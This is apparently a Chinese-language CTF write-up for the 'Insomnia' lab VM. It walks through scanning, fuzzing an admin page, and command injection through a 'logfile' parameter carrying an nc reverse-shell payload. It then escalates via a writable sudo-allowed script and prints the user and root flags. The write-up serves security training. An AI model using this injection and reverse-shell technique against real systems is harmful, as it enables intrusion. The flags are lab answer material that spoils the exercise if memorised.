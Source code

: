 # Insomnia

:::note

[Linux VM] [Tested on VirtualBox] created by || alienum

⏲️ Release Date // 2021-01-28

✔️ MD5 // f6808bfec80c7348aeb449d9f2305bbd

☠ Root // 102

💀 User // 108

📝Notes //
This admin is very careless.

:::

## 靶机启动

![靶机启动](img/image_20231212-201200.png)

靶机 IP：

```plaintext
192.168.56.112
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.112
Host is up (0.00054s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.19-1)
|_http-title: Chat
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 08:00:27:D8:30:07 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231220-202045.png)

发现类似于一个在线聊天平台，并且经过探测，发现存在 XSS 攻击的可能性

尝试进行目录扫描，得到以下路径

```plaintext
[20:22:07] 200 -   65B  - /administration.php
[20:22:10] 200 -    2KB - /chat.js
[20:22:25] 200 -   20B  - /start.sh
```

## 对 `/administration.php` 文件进行 fuzz 攻击

```shell
┌─[✗]─[randark@randark-Parrot]─[~/tmp]
└──╼ $wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://192.168.56.112:8080/administration.php?FUZZ=test'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.112:8080/administration.php?FUZZ=test
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000485:   200        2 L      12 W       69 Ch       "logfile"

Total time: 2.479255
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 383.5828
```

发现存在参数口：`logfile`

经过尝试，其可以执行命令注入

```plaintext
http://192.168.56.112:8080/administration.php?logfile=;nc%20192.168.56.102%209999%20-e%20/bin/bash;
```

成功得到 shell 会话

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[20:29:03] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[20:29:45] received connection from 192.168.56.112:47920                                                                                                                                                                         bind.py:84
[20:29:46] 192.168.56.112:47920: registered new host w/ db                                                                                                                                                                   manager.py:957
(local) pwncat$ back
(remote) www-data@insomnia:/var/www/html$ whoami
www-data
(remote) www-data@insomnia:/var/www/html$
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for www-data on insomnia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on insomnia:
    (julia) NOPASSWD: /bin/bash /var/www/html/start.sh
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

由于 `julia` 用户可以在无需密码的情况下执行 `/var/www/html/start.sh` 文件，并且 `/var/www/html/start.sh` 文件是 `www-data` 用户可以控制的，于是存在提权可能性

将 bash 反弹 shell 的 poc 写入 `/var/www/html/start.sh` ，然后执行

```shell
sudo -u julia /bin/bash /var/www/html/start.sh
```

即可收到反连的shell会话

```shell
┌─[randark@randark-Parrot]─[~/tmp]
└──╼ $pwncat-cs -lp 8888
[20:35:57] Welcome to pwncat 🐈!                                                                                      __main__.py:164
[20:38:27] received connection from 192.168.56.112:55218                                                                   bind.py:84
[20:38:27] 192.168.56.112:55218: registered new host w/ db                                                             manager.py:957
(local) pwncat$ back
(remote) julia@insomnia:/var/www/html$ whoami
julia
(remote)
```

## user pwned

```shell
(remote) julia@insomnia:/home/julia$ cat user.txt 

~~~~~~~~~~~~~\
USER INSOMNIA
~~~~~~~~~~~~~
Flag : [c2e285cb33cecdbeb83d2189e983a8c0]
```

:::warning

此靶机的服务极容易被打挂掉，如果前面修改了 `/var/www/html/start.sh` 的文件内容，会导致即使靶机重启后也无法启动web服务，导致死题

:::

后续得到 `julia` 的权限之后，可以通过计划任务来进行进一步的提权

## root pwned

```plaintext title="/root/root.txt"

~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```